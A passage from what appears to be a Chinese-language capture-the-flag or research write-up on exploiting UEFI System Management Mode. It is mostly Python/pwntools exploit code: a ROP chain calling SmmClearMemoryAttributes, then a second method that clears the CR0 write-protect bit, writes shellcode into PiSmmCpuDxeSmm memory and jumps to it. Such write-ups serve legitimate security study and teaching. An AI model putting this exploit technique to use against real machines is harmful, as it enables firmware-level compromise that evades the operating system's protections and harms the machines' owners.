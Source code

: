 ```python
            0x44440000,
            0x00,
            control_r8,
            0x2000,
            0,
            0,
            SmmClearMemoryAttributes_addr,
            # Cowsay(0x44440000, 0x50);
            pop_rdx_rcx_rbx,
            0x50,
            0x44440000,
            0x00,
            Cowsay_addr,
        ],
        400: [longjump_gadget],
    },
    word_size=64,
)
```
#### Exploitation 2 - Modify PTE

换种思路：若没有发现 SmmClearMemoryAttributes 函数，也可以通过篡改 0x44440000 页面对应的页表条目，使 P 位为 1（代表页面存在、可读）。

为了简化后续操作，关闭 WP 保护后可以考虑写入 shellcode：

```python
smm_shellcode = asm(f"""
    ret;
""")
smm_shellcode = smm_shellcode.ljust(((len(smm_shellcode) // 8) + 1) * 8, b"\x90")

payload = flat(
    {
        0x00: [
            0xBBBBBBBB,  # rbx
            allocated_buf + 0x18 + 0x48 + 0x8,  # after ( (guid + size) + 0x48 + 8)
        ],
        0x48: [
            # disable WP
            pop_rax_rdi_ret,
            0x80000032,
            0,
            mov_cr0_rax_ret,
        ],
    },
    word_size=64,
)

for i in range((len(smm_shellcode) // 8)):
    payload += flat(
        [
            pop_rax_rdi_ret,
            u64_ex(smm_shellcode[i * 8 : (i + 1) * 8]),
            0,
            pop_rdx_rcx_rbx + 1,
            PiSmmCpuDxeSmm_addr + 0x1000 + (i) * 8,
            0,
            mov_ptrcx_rax_ret,
        ],
        word_size=64,
    )
payload += p64(PiSmmCpuDxeSmm_addr + 0x1000)
payload = payload.ljust(400, b"\x90") + p64(longjump_gadget)
```

